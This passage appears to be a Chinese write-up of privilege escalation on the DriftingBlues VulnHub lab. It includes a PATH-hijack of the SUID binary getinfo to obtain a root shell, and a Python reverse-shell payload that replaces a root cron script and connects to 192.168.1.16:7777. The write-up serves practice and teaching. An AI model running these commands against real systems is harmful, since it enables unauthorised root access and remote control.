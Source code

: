 查看当前用户的主目录发现一个文件，具有可执行的`python`脚本，查看该脚本，发现调用了`os`模块，虽然这里的`os.py`具有可写入权限，但是在调用命令时，需要使用`os`，所以不能直接修改`os.py`

![](D:\stu\vulnhub\DriftingBlues靶场\pic-4\25.jpg)

上传`pspy64`检测是否有属于`root`的定时任务，发现每一分钟以`root`也就是`uid=0`执行该脚本，虽然不知道是否是文件所有者的关系，但是有时候是指定用户进行执行

```shell
scp pspy64 hubert@192.168.1.61:/tmp
```

![](D:\stu\vulnhub\DriftingBlues靶场\pic-4\25-1.jpg)

# 提权

## 方法一

利用具有SUID权限的文件`getinfo`进行临时环境优先目录提取

首先把该文件下载，确定利用哪些，能否进行提取

```shell
scp hubert@192.168.1.61:/usr/bin/getinfo ./

strings getinfo
```

![](D:\stu\vulnhub\DriftingBlues靶场\pic-4\26.jpg)

在`/tmp`目录下，创建一个与`ip`同名的名称，并写入脚本，然后使用`export`设置临时环境变量`/tmp`，执行`getinfo`就会提取成功

```shell
echo "/bin/bash" > ip
export PATH=/tmp:$PATH
chmod +x ip
/usr/bin/getinfo
```

![](D:\stu\vulnhub\DriftingBlues靶场\pic-4\27.jpg)

## 方式二

通过定时任务冒充同一名称的`python`脚本进行执行

先进行测试，把`emergency.py`备份，然后创建一个`emergency.py`，编写代码，等待1分钟，发现文件所有者变为`root`，说明可以提取

![](D:\stu\vulnhub\DriftingBlues靶场\pic-4\28.jpg)

再次写入代码，等待一分钟，发现已经提权

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.1.16",7777))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

